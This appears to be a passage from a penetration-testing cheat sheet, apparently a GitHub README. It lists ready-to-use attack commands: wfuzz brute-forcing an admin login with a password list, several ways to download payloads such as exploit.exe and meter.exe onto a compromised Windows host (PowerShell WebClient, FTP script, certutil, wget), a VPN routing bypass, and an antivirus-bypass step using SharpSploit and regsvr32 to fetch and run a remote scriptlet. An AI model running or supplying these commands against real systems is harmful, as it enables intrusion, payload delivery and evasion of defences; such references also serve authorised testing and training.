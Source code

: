 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
`cscript wget.vbs http://<ip>/test.txt test.txt`

<b>powershell</b>

`powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"`

<b>ftp</b>

client:

<pre>
echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
</pre>

server:

<code>python -m pyftpdlib  --port=2121 --write</code>

<b>wget.exe</b>

Upload to vulnerable server from kali: ` /usr/share/windows-binaries/wget.exe`

`wget.exe http://<ip>/file file`

<b> certutil </b>

`certutil -urlcache -split -f  https://<ip>/file.txt file.txt`
  
<a name="vpnrestrict"></a><h3> Bypass VPN routing restrictions </h3>

<pre>openconnect vpnXXX02.XXXX.com -u XX -s ‘vpn-slice XXX.46.0.0/16 hostname3 mantis=XXX.41.2XX.68’</pre>

![vpn1](https://user-images.githubusercontent.com/7115563/41146909-30e484de-6b05-11e8-82fb-acfc17a722a2.png)

Reference: https://github.com/dlenski/vpn-slice

<a name="avbypass"></a><h3>AV Bypass</h3>

<b> SharpSploit </b>

<pre>
Start-Process "powershell" "unblock-file .\SharpSploit.dll"

Add-Type -Path .\SharpSploit.dll

[SharpSploit.Execution.Shell]::ShellExecute("regsvr32 /s /n /u /i:http://192.168.48.151:9999/QuHBoZ.sct scrobj.dll")
</pre>

![sharpsploit](https://user-images.githubusercontent.com/7115563/46204073-2c07a800-c31c-11e8-9905-76c168432018.png)

References: https://cobbr.io/SharpSploit.html

```